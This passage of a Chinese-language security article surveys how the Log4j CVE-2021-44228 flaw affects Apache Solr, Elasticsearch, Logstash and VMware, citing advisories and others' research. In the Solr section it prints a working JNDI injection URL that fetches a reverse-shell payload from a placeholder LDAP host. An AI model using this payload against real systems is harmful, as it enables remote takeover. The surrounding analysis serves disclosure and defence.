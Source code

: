 [![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/7/b633ef69-a737-4990-a303-c1ee277a82ea.png?raw=true)
](https://storage.tttang.com/media/attachment/2021/12/15/329350d8-e107-4f50-967b-61849863faaa.png)

[Apache Solr](#toc_apache-solr)
-------------------------------

Apache Solr 是 Apache Lucene 项目的开源企业搜索平台。其主要功能包括全文检索、命中标示、分面搜索、动态聚类、数据库集成，以及富文本（如 Word、PDF）的处理。当然也是此次漏洞的受害者。

官方通告：[https://solr.apache.org/security.html#apache-solr-affected-by-apache-log4j-cve-2021-44228](https://solr.apache.org/security.html#apache-solr-affected-by-apache-log4j-cve-2021-44228)

Apache Solr 的 POC 都已经传遍了世界，如下：

`/solr/admin/collections?action=${jndi:ldap://xxx/Basic/ReverseShell/ip/9999}&wt=json` 

当然入口点也肯定不止这一个，挖掘思路与 Struts2 类似，只需要找到点就可以了。

[Elasticsearch](#toc_elasticsearch)
-----------------------------------

根据 Elasticsearch 在官方论坛里发布的公告，Elasticsearch 5.0.0+ 版本包含了带有漏洞版本的 Log4j2 包，但由于其使用了 Java Security Manager，减轻了受到的危害。

phith0n 师傅在知识星球上发布了其[研究成果](https://wx.zsxq.com/dweb2/index/topic_detail/818814858152212)，经其实测发现，写入操作一般会写日志。并给出测试时 dnslog 的截图。

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/7/04878cbc-3d71-4887-9fb9-48529245aa7d.png?raw=true)
](https://storage.tttang.com/media/attachment/2021/12/15/573ab34e-f334-4181-9491-e1420687fca7.png)

在 B 站上，也有一位名为杰锐朱的 UP 主发布了相关的 DEBUG 及分析，链接在[这里](https://www.bilibili.com/video/BV1Ua411r7zN)。关于相关的细节，这位 UP 主的介绍以及足够，这里就不再重复，师傅们可以自行跟调。

总体来说，在漏洞存在的版本，存在 Lookup 渲染的功能，可以配合 dnslog 进行测试，但由于 SM 的介入，使用 ldap 执行远程恶意类时会由于权限不足而抛出异常，因此大大减轻的实际受到的攻击威胁。

提到 ES，那顺便也提一下本家的 logstash，logstash 也受到本次漏洞的危害，并在漏洞爆发后更新了 Log4j2 的版本。在 Twitter 上有老外发出截图展示其脆弱性：

[![](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/7/29fb9e24-d124-4e44-a6d2-48b1a8f409fb.jpeg?raw=true)
](https://storage.tttang.com/media/attachment/2021/12/15/ae37022c-f8e4-4248-9fff-4a67c75d7d21.jpeg)

[vmware 产品线](#toc_vmware)
-------------------------

根据 VMware 的[官方安全通告](https://www.vmware.com/security/advisories/VMSA-2021-0028.html)，包括 vCenter 在内的多个产品均受到了此次安全漏洞的影响，并且提供了受影响产品的环境的版本号。

以下为启明星辰 ADLab 在其[公众号文章](https://mp.weixin.qq.com/s/J5H9aZVhwQaVn3LvKi2Kqw)中发布的 2 张复现截图。

[![](https://storage.tttang.com/media/attachment/2021/12/15/6abb95c7-9404-47ab-bf41-2b![1639297743749.jpg](https://github.com/D0n9/paper_archive/blob/main/paper/picture/2023/7/e1ba5187-5abe-41f7-8f5f-8910f01bffc0.jpeg?raw=true)233e3fc596.jpg)
](https://storage.tttang.com/media/attachment/2021/12/15/6abb95c7-9404-47ab-bf41-2b![1639297743749.jpg](https://storage.tttang.com/media/attachment/2021/12/15/7a99b4dd-c5bd-4923-b476-8a71232fa813.jpg)233e3fc596.jpg)
